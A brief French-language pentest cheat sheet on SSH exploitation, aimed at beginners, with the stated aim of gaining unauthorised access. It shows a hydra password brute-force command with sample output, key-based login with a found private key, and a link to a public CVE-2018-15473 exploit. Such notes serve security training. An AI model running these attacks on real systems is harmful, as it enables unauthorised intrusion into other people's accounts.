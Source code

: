 # Exploitation SSH

## Objectif
Exploiter des faiblesses de configuration ou des mots de passe faibles pour obtenir un accès SSH non autorisé.

---

## Explications vulgarisées
- SSH est un protocole sécurisé, mais il peut être mal configuré (mots de passe faibles, clés privées exposées, etc.).
- L'exploitation consiste souvent à deviner/cracker un mot de passe ou à réutiliser une clé privée trouvée.

---

## Commandes et étapes essentielles

### 1. Bruteforce de mots de passe
```bash
hydra -L users.txt -P passwords.txt ssh://target.com
```
- **hydra** : Outil de bruteforce pour tester des combinaisons utilisateurs/mots de passe.
- **Exemple de sortie** :
```
[22][ssh] host: target.com   login: admin   password: admin123
```
- **À surveiller** : Credentials valides, blocage du service.

### 2. Utilisation d'une clé privée trouvée
```bash
chmod 600 id_rsa
ssh -i id_rsa user@target.com
```
- **ssh -i** : Utilise une clé privée pour se connecter.
- **Astuce débutant** : Tester les clés trouvées lors de la post-exploitation.

### 3. Exploitation de failles connues (ex : CVE-2018-15473)
- Utiliser des scripts publics pour détecter des utilisateurs valides ou exploiter des failles SSH spécifiques.
- Exemple : https://github.com/Rhynorater/CVE-2018-15473-Exploit

---

## Conseils pour débutants
- Toujours commencer par tester les mots de passe faibles ou par défaut.
- Attention au blocage de compte après plusieurs tentatives.
- Tester les clés privées trouvées sur la machine ou dans les backups.
- Lire la documentation de chaque outil pour découvrir des options avancées.

---

## Pour aller plus loin
- [PayloadsAllTheThings - SSH Exploitation](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/SSH%20Methodology)
- [Hydra](https://github.com/vanhauser-thc/thc-hydra) 